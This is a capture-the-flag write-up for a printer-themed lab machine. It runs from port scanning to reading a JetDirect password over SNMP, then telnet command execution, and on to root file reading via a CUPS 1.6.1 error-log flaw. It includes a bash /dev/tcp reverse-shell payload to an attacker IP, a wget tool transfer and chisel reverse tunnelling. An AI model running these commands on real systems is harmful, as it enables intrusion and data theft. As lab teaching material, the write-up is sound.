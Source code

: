 1. Run nmap to discover open ports and services from the web server.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/08984687-2d7a-4ff1-b1ee-226af837b7ec)

2. From the result, it shows telnet service so we try to telnet the ip address and been asked to input a password.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/b075b06f-4035-4af0-966f-fb0fc339a9fe)

3. Let's check from the udp port with nmap.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/153b0fae-1fde-4ded-978c-6c8193a62923)

4. We discover that a SNMP port 161 is opened. Next, we googling all the way to find any vulnerability related to snmp and HP JetDirect and found this [link](https://www.exploit-db.com/exploits/22319) where's about HP JetDirect password disclosure. We can execute `snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0`
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/294b4b5a-b539-4066-bf31-130ab5379ad7)

5. Seems like an ascii sequence. To decode we can use this [tool](https://www.dcode.fr/ascii-code) and the password is P@ssw0rd@123!!123
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/729d83bd-4d58-4385-a3d1-c5f0cec61d21)

6. Input the password and we try to input `ls` directly first and it isn't working so we try add exec in front of the input. The flag is found in user.txt.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/576ac93c-cdca-4997-93c7-9fde013b90d2)

7. Another vulnerability is we can do reverse shell with this payload `exec bash -c "bash -i >& /dev/tcp/10.10.14.13/777 0>&1"`. 
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/b6d5cf7d-265c-43e2-9cff-71499e5dd686)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/10d8ba08-cbaf-4679-965d-4a25f836fe03)

8. Checking one by one directory and not find any interesting thing. Let's check the network stats.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/9d83cc85-58f4-4980-a97a-bbb04d767ce2)

9. The second one is quite suspicious because it runs locally. We can't check directly because it runs on target machine, not our machine. Don't worry, we can use tool called [Chisel](https://github.com/jpillora/chisel) to give access so we can access the target machine localhost in our terminal. We can run `python3 -m http.server 80` in our machine and `wget <ip address>/<chiselfile>` for give the chisel file to target machine.<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/a7d28b59-94c1-45af-849a-37af8104c50a)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/00ff28b4-c6e5-4934-a876-b05c04e8c3de)

10. Now we do a small reverse shell with chisel. We can run this payload and here's the response. When we opened, it's a CUPS 1.6.1 web server.
Target Terminal:
`./chisel_1.9.1_linux_amd64 client 10.10.14.13:888 R:631:localhost:631`

Host Terminal:
`./chisel_1.9.1_linux_amd64 server -p 888 --reverse`

![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/1b9e5fbc-e6e7-4f90-b980-95b66c747c7f)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/8e506805-ad0b-44b6-b0b2-82b8cf8110e8)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/66f60f91-c733-4f34-a4af-b3ece3b74509)

11. Open administration page (admin) and we get these features.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/7b412740-09c7-4582-b117-38e89ebf126a)

12. Googling to find any vulnerability related to CUPS 1.6.1 and found this [article](https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/). It describes that the cupsd daemon change any input inside the error log as a plaintext.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2c40abab-8c1b-4445-b3a6-6c0e754c5d6d)

13. Because it's related to error log, next we open the `view error log` feature in administration page and it looks like this.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/cf650ce3-e3e5-4e47-ba75-6b6862e7d7da)

14. Now we are searching the payload that are related to CUPS 1.6.1 and error log. Then we find this [payload](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read)
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/c4f8bd5f-91e6-41e3-b722-1a23b2ead94d)

15. Now we just need to run `cupsctl ErrorLog="/root/root.txt"`. This means that the cupsctl give the input to ErrorLog so the cupsd daemon can translate it into plaintext as a bash command. To see the response, we can run `curl 127.0.0.1:631/admin/log/error_log?` and get the root flag!<br>
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/7c436128-d182-445c-b46a-d160c8c05e2b)




